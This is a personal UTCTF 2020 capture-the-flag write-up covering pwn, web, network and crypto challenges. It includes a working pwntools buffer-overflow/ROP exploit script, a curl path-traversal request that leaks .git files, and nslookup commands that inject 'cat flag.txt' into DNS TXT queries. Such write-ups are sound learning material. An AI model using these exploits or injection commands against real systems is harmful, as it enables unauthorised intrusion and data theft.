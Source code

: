 # UTCTF 2020
###### tags: `Course` `CTF`


## PWN

### BOF

flag: utflag{thanks_for_the_string_!!!!!!}

Simple BOF with ROP Chain(set rdi to 0xdeadbeef)

Reversed:

```lang=c

function getflag(int a){
    if(a == 0xdeadbeef){
        printf(flag.txt)
    }
}

main(){
    char a[108];
    puts("XXXX");
    gets(a);
    puts("XXXX");
    return 0;
}
```

payload:

```lang=c
from pwn import *
  
pop_rdi = p64(0x0000000000400693)
ROP = flat(
    pop_rdi,
    p64(0xdeadbeef)
)

r = remote("binary.utctf.live",9002)
#r = process("./pwnable")
r.recvuntil("!\n")
getflag = p64(0x4005ea)
payload = "a"*120+ROP+getflag
r.sendline(payload)
r.interactive()
```


## Web

### Shrek Fans Only (Not Solved)

Problem Descrition:

```
Shrek seems to be pretty angry about something,
so he deleted some important information off his 
site. He murmured something about Donkey being 
too committed to infiltrate his swamp. Can you 
checkout the site and see what the status is?
```

Entering the Webpage, you can find there is a weird things, the image
```
http://webpageIP/getimg.php?img=aW1nMS5qcGc%3D
```

The value of img parameter is encoded in Base64, which represent img1.jpg

I guessed the challenge is to reconstruct the git history and find the flag

However if you just query website
http://webpageIP/getimg.php?img=btoa(.git/HEAD)
you will get nothing at all, since the returned string is not an image.

After looking for writeup, people use curl to get the output string:

```
curl http://webpageIP/getimg.php?img=btoa(.git/HEAD)
```

With git-dumper, we can construct a full git history. By looking into the git objects, we can find the flag.

If simply using curl to solve this problem, beware that at some point the hash cannot be decoded by zlib correctly, will have to hexlify

```
b'tree 113\x00100644 img1.jpg\x00\x0e\x81\x04\xf5\x1d\xb8\xf9\xee\x08\xf0\x96fV\xa3\xc20~l\xde\\100644 
imgproxy.php\x00l\xfd4\xf3?\x97Lu\x1e\xdc3D\x1b\x11\xd68\xf8K\x15!100644 
index.php\x00ex\xc6/\xa2H\xd0x\xff\xc5Q@\\\x97\x00\xe3\xcc\xc9\xf5\xb3'
```


#### Reference
https://spotless.tech/utctf-ctf-2020-shrek-fans-only.html
https://jaeseokim.tistory.com/100

#### Tools

[git-dumper](https://github.com/arthaud/git-dumper)

### epic admin pwn(Not Solved)

SQL Injection with sqlmap

### spooky store(Not Solved)

XXE attack

## Network

### Do Not Stop

flag: utflag{\$al1y_s3L1S_sE4_dN\$}

Problem Description:

```
One of my servers was compromised, but I can't 
figure it out. See if you can solve it for me!
```

Given a pcap file
After inspecting the file, I found something strange in the dns packet.
The TXT field contains some strings encoded in base64.

After decodeing, I found strings such as:

```
ls -la
whoami
```
So we notice that we can inject command(in base64 format) in the TXT field of dns query.

First we have to find the compromised dns server. The dns server's IP has changed(not the same as the one in pcap). Through query another dns they've set up, we can get the compromised dns server.

```
nslookup 35.225.16.21 dns.google.com -> IP
nslookup --type TXT=base64(cat flag.txt) IP 
```

### Nittaku 3 Star Premium

Given pcap file, we can found weird features in icmp packet

![](https://i.imgur.com/R5Ool3n.png =350x250)

The packet has a sequence, and the response is encoded in base64

After pinging the server(35.188.185.68)
We can get 17 ICMP packets with data in total

decode the data in 17 packets and concat it will return us a zip file, just unzip it.

## Crypto

### Basic[Crypto]

flag: utflag{n0w_th4ts_wh4t_i_c4ll_crypt0}

given a binary text, the content of the file:

```
01010101 01101000 00101101 ...
```

It was filled with 0,1 character, 8 characters form a string, which implies each string can represent a ascii character. With the tool provided below, we can get the ascii string.

The next step is the ascii string is somehow encoded in base64, so simply solved it by chromes console 

```
atob('XXX') 
```

The third step, the hint implies that the string is encrypted with ceasar cipher. Again, with the tool belowed, we can solve the cipher.

The final step, the string(including flag) was encrypted with substitution cipher. After looking the cipher, we found some mappings.

```
hwxdnitvoitjwxk! -> congradulations!
gwv -> you
vtsoid -> utflag
...
```

so we could get a lot of mappings, and finally get the flag.

#### online tool
[binary to ascii](https://www.rapidtables.com/convert/number/binary-to-ascii.html)
[ceaser cipher](https://cryptii.com/pipes/caesar-cipher)
[substitution cipher](http://practicalcryptography.com/ciphers/simple-substitution-cipher/)

### One True Problem (Not Solved)

flag: utflag{tw0_tim3_p4ds}

OTP problem + known plaintext attack
given to string (encrypted with same key, which is the flag)

>213c234c2322282057730b32492e720b35732b2124553d354c22352224237f1826283d7b0651

>3b3b463829225b3632630b542623767f39674431343b353435412223243b7f162028397a103e

**Methods:**
1. Known plaintext attack: key must start with utctf{
2. After apply it to decode we can get the plaintext: THE BES
3. Guess the following plaintext to get the key
4. plaintext: THE BEST CTF CATEGORY IS CRYPTOGRAPHY!


